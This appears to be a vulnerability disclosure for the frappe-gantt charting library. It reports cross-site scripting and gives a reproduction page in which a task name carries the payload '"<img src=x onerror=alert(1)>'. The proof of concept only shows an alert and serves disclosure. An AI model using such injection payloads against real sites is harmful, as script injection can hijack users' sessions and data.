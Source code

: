 # Description

`frappe-gantt` is vulnerable to `Cross-Site Scripting (XSS)`.

# Steps To Reproduce

Copy the below content and save it into a .html file and open in any browser XSS payload will get executed.
```
<!DOCTYPE html>
<html lang="en">
<head>
	<title>Gantt</title>
	<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/frappe-gantt/0.5.0/frappe-gantt.css" />
	<script src="https://cdnjs.cloudflare.com/ajax/libs/frappe-gantt/0.5.0/frappe-gantt.js"></script>
</head>
<body>
	<div class="container">
		<h2>Interactive Gantt Chart entirely made in SVG!</h2>
		<div class="gantt-target"></div>
	</div>
	<script>
		var tasks = [
			{
				start: '2018-10-01',
				end: '2018-10-08',
				name: 'Redesign website"<img src=x onerror=alert(1)>',
				id: "Task 0",
				progress: 20
			},
			{
				start: '2018-10-03',
				end: '2018-10-06',
				name: 'Write new content',
				id: "Task 1",
				progress: 5,
				dependencies: 'Task 0'
			}
		]
		var gantt_chart = new Gantt(".gantt-target", tasks, {
			on_click: function (task) {
				console.log(task);
			},
			on_date_change: function(task, start, end) {
				console.log(task, start, end);
			},
			on_progress_change: function(task, progress) {
				console.log(task, progress);
			},
			on_view_change: function(mode) {
				console.log(mode);
			},
			view_mode: 'Month',
			language: 'en'
		});
		console.log(gantt_chart);
	</script>
</body>
</html>
```
